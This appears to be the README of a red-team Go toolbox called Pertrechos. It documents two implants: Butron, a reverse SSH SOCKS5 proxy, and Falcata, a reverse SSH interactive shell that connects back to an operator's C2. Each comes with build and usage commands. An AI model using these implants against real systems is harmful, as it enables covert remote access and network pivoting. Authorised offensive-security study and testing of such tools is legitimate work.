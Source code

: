 Pertrechos
===========================

*petrechos: Red Team Tool Set*


+----------------+--------------------------------------------------+
|Project site    |https://github.com/rebujacker/Pertrechos           |
+----------------+--------------------------------------------------+
|Issues          |https://github.com/rebujacker/Pertrechos/issues/   |
+----------------+--------------------------------------------------+
|Author          |Alvaro Folgado (rebujacker)                        |
+----------------+--------------------------------------------------+
|Documentation   |https://github.com/rebujacker/Pertrechos/README.rst|
+----------------+--------------------------------------------------+
|Last Version    |Beta                                               |
+----------------+--------------------------------------------------+
|Golang versions |1.10.3 or above                                    |
+----------------+--------------------------------------------------+

What is Pertrechos? What is its Purpose?
===================================================

Pertrechos is a toolbox repo. that will contain simple code-snippets in go to perform different useful actions to help offSec. operations/projects.

For the moment, they will be simple extracts of features that SiestaTime framework has already in place, but with the freedom of a simple binary or source ready to be used.

Each tool will normally focus in one type of feature and should work for three platforms: Linux,Windows and OSX

This tool has both **Educational Purposes** and aims to help **security industry** and **defenders**.


Butron - Reverse SSH SOCKS5
===================================

Open a SOCKS5 in a target SSH server, by using a reverse SSH connection from the device.
Basically like doing "ssh -i key.pem -D user@<ImplantSSHServer>" from our C2. 

If you want to test the functionality, use a browser (EG. Mozilla) and set a SOCKS5 proxy towards your C2 SOCKS5 opened.


Compile and Use:

petrechos.sh butron <windows/darwin/linux> <amd64/386>
./butron <key.pem> <SSHuser> <C2IP:Port> <IPtoListen:Port> <OptionalParamLog>

Rememeber that your C2 sshd needs to have "GatewayPorts yes" in /etc/ssh/sshd.conf to be able to listen to 0.0.0.0


Sources Used:
https://labs.portcullis.co.uk/blog/reverse-port-forwarding-socks-proxy-via-http-proxy-part-1/
https://github.com/armon/go-socks5
https://gist.github.com/codref/473351a24a3ef90162cf10857fac0ff3

Falcata - Reverse SSH Full Interactive Terminal (Linux,Darwin, TBD Windows)
===========================================================================================

Full Interactive shell. The "Egress" will connect using SSH to target C2, and serve a full interactve shell in a listener.
The "Connect" will take care of terminal channels/etc... to have a full interactive session. 

<TBD> Full Interactive mirror for windows.

Compile and Use:

petrechos.sh falcata <windows/darwin/linux> <amd64/386>
./falcata egress <key.pem> <SSHuser> <C2IP:Port> <IPtoListen:Port>
./falcata connect <IPtoListen:Port>

Sources Used:
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
https://dev.to/napicella/linux-terminals-tty-pty-and-shell-part-2-2cb2
https://gist.github.com/napicella/777e83c0ef5b77bf72c0a5d5da9a4b4e

Contributing
=============================

Any collaboration is welcome! Feel free to contact me.

There are many tasks to do. You can check the `Issues <https://github.com/rebujacker/Pertrechos/issues/ >`_ and send us a Pull Request.


Disclaimer
===================================

Author/Contributors will not be responsible for the malfunctioning or weaponization of this code

License
========================

This project is distributed under `GPL V3 license <https://github.com/rebujacker/Pertrechos/LICENSE>`_
